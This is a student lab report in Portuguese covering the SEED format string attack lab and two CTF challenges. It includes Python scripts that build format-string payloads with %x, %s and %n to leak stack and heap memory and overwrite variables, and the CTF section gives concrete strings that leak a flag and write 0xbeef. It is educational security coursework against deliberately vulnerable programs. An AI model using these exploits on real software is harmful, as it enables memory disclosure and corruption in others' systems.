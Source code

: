 ## Task: Format String Attack Lab

## Setup 

* Inativar a randomização de endereços usando o código
````sh
sudo sysctl -w kernel.randomize_va_space=0
````

* Adicionar as flags **-static** e **-z exestack**

## Task 1 : Crashing the Program

Ao inserir vários "%s", o printf imprime o conteúdo dos endereços de memória na stack. 
Com o número significativo de "%s" pode tentar imprimir o contéudo de memória não existente , *"crashando"* assim o programa.

## Task 2 : Printing Out the Server Program’s Memory

### Task 2.A : Stack Data

Depois de iterativamente testarmos diferentes quantidades de **%x**, chegámos a conclusão com 12 **%x** conseguimos que o programa mostrasse o endereço do buffer de input. Sendo assim, para saber o conteúdo do 12° endereço basta usar o "%s".

````py 
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x|"*11 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

````
![Demonstração no terminal](src/task2a_log6.png)
![Demonstração no terminal2](src/task2a2_log6.png)

### Task 2.B : HeapData

Realizámos o mesmo método da task anterior e concluímos que eram necessários 64 **%x**. 
Além disso, alterámos o valor do *number* para o valor apresentado no terminal em *"The secret message’s address:  0x080b4008"*.

````py 
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x|"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

````

![Demonstração no terminal](src/task2b_log6.png)

## Task 3 : Modifying the Server Program’s Memory

### Task 3.A : Change the value to a different value

Alterámos o valor do *number* para o valor apresentado no terminal em *"The target variable’s address: 0x080e5068"*. Assim, usando **%n** é nos possível alterar o conteúdo de memória no endereço especificado. A maneira como funciona é da seguinte forma:

* Conta o número de bytes utilizados na string até ser chamado .
* Coloca esse valor no endereço de memória especificado com **%(número de ocorrência)$n**.

````py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
````

![Demonstração no terminal3](src/task3a_log6.png)

O valor no endereço da target é 8, pois antes de chamarmos a %n tinhamos 8 bytes na forma do endereço da target e o valor "abcd".

### Task 3.B : Change the value to 0x5000

Recorremos à ajuda do %x conseguimos incluir na string formada pelo printf um número de espaços em branco. Com isso, conseguimos determinar o valor de **0x5000** em decimal (20480) e apenas temos de reduzir a esse valor os 8 bytes que já tínhamos. Assegurando-nos assim que o valor escrito na memória é **0x5000**.

````py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20472x" + "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
````
![Demonstração no terminal4](src/task3b_log6.png)

## CTF - Format Strings.

### Desafio 1:

Usando a string: "\x60\xc0\x04\x08|%s" é possivel acedermos ao endereço da variavel local flag que é 0x0804c060 atravès do gdb.
Ao introduzirmos o endereço em litle endian na string é possivel imprimir o seu conteúdo.

### Desafio 2:

Usando a string: "\x34\xc0\x04\x08%48875x%1$n" é possivel reescrever a variavel global 'key' para o valor hexadecimal 0xbeef. Atraves de %n é possivel reescrever o valor na memoria do endereço 0x0804c034 com o numero de bytes usados na tring até a sua chamada. Que neste caso será 4 bytes (enderço) + 48875 bytes em branco atraves %x que corresponde ao valor decimal de 0xbeef. 
